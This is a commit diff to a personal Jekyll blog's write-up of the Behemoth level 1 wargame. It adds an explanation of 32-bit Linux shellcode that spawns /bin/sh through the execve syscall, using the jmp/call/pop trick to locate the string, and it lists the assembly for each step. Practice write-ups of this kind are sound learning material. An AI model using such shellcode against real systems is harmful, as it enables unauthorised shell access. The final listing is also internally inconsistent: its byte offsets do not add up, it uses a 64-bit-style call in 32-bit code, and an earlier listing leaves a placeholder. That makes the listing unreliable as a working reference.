

Before and after one commit to sitano/sitano.github.io, a Jekyll site: the page built from _posts/2018-03-28-behemoth1.md, in a window 1280 px wide and 1400 px high, scrolled down 2365 px. Shown: the whole window at 92% size, without its empty margins (1-1028 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3426 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
more on stack exploitation

````diff
--- a/_posts/2018-03-28-behemoth1.md
+++ b/_posts/2018-03-28-behemoth1.md
@@ -104,6 +104,56 @@ So, it works. We've got our process jumped right into the buffer.
 Now, we need to load the input with a program to replace current
 process with a `/bin/sh`.
 
+We have 75 bytes to fulfill our purpose.
+
+Let's invoke `/bin/sh` right from the stack. In order to do that,
+we will need to call `execve` syscall. Read about linux syscall notation
+and `execve` system call at
+[man 2 syscall](http://man7.org/linux/man-pages/man2/syscall.2.html),
+[man 2 syscalls](http://man7.org/linux/man-pages/man2/syscalls.2.html),
+[man 2 execve](http://man7.org/linux/man-pages/man2/execve.2.html),
+[Linus kernel source unistd_32.h](https://github.com/torvalds/linux/blob/master/arch/sh/include/uapi/asm/unistd_32.h).
+
+So, `execve` in 32 bit mode has 3 arguments and syscall id equal to
+0x0b (11). The assembly for the `execve("/bin/sh", NULL, NULL)` call
+should look like this:
+
+```
+    31C0  xor %eax, %eax          ; syscall id: %eax = 0
+    ????  lea str_address, %edi   ; arg1: path
+    31F6  xor %esi, %esi          ; arg2: %esi = 0
+    99    cdq                     ; arg3: %edx = 0, as extension of $eax
+    B00B  mov $0x0b, %al          ; syscall id: %eax = 0xb
+    CD80  int $0x80               ; syscall execve("/bin/sh", NULL, NULL)
+```
+
+Where to take an address for `lea`? It can be obtained from the stack
+using short call jump trick:
+
+```
+    jmp short forward
+    program:
+    pop %edi
+    ...
+    forward:
+    call short program
+    '/bin/sh'
+```
+
+Finally, we have something like:
+
+```
+    0000        jmp short 0xd
+    0002  5F    pop %edi                ; arg1: path
+    0006  31F6  xor %esi, %esi          ; arg2: %esi = 0
+    000A  31C0  xor %eax, %eax          ; syscall id: %eax = 0
+    000B  99    cdq                     ; arg3: %edx = 0, as extension of $eax
+    000D  B00B  mov $0x0b, %al          ; syscall id: %eax = 0xb
+    000F  CD80  int $0x80               ; syscall execve("/bin/sh", NULL, NULL)
+                call qword 0x2
+                '/bin/sh'  0x00
+```
+
 ...
 
 Use obtained password to enter new a `/bin/sh`
@@ -117,3 +167,4 @@ Links
 - [gdb - debugging with pipe](https://stackoverflow.com/questions/1456253/gdb-debugging-with-pipe?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa)
 - [Linux/x64 - execve(/bin/sh) Shellcode (25 bytes)](https://www.exploit-db.com/exploits/39624/)
 - [C shellcode explanation](https://security.stackexchange.com/questions/119959/c-shellcode-explanation/119978)
+- [64-bit Linux Return-Oriented Programming](https://crypto.stanford.edu/~blynn/rop/)
````
